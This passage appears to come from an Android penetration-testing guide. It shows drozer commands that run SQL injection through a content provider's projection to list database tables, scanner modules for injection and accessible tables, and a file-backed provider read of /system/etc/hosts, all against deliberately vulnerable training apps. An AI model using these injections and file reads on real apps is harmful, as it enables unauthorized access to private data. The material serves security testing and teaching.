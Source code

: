 ```
```
dz> run app.provider.query content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers/ --projection "* from sqlite_master where type='table'--"
```
```
| type  | name             | tbl_name         | rootpage | sql                                                                            |
| table | android_metadata | android_metadata | 3        | CREATE TABLE android_metadata (locale TEXT)                                    |
| table | names            | names            | 4        | CREATE TABLE names (id INTEGER PRIMARY KEY AUTOINCREMENT,  name TEXT NOT NULL) |
| table | sqlite_sequence  | sqlite_sequence  | 5        | CREATE TABLE sqlite_sequence(name,seq)                                         |
```

- You can automate the detection of SQL injection vulnerabilities using drozer in conjunction with the scanner.provider.injection module.

```
dz> run scanner.provider.injection -a content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers/
	Not Vulnerable:
	  No non-vulnerable URIs found.
```

- Injection in Projection:

```content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers/```

- Injection in Selection:

```content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers/ ```

```
dz> run scanner.provider.sqltables -a content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers/ 

	Accessible tables for uri content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers/:
	  android_metadata
	  names
	  sqlite_sequence
```

- File-Backed Content Providers


Implementing a content provider that allows other applications to retrieve files in a structured and secure way is possible. However, the mechanisms for doing so can be prone to vulnerabilities that allow the retrieval of arbitrary files under the UID of the content provider’s application. You can programmatically create these content providers by implementing a public ParcelFileDescriptor openFile(Uri, String) method. If the URI being requested is not strictly validated against a whitelist of allowed files or folders, this opens up the application to attack. An easy way to check whether a content provider allows the retrieval of any file is by requesting the /system/etc/hosts file, which always exists and is word readable on Android devices. The following example shows how to exploit one such content provider in Sieve to retrieve /system/etc/hosts:

```
dz> run app.provider.read content://com.mwr.example.sieve.FileBackupProvider/system/etc/hosts
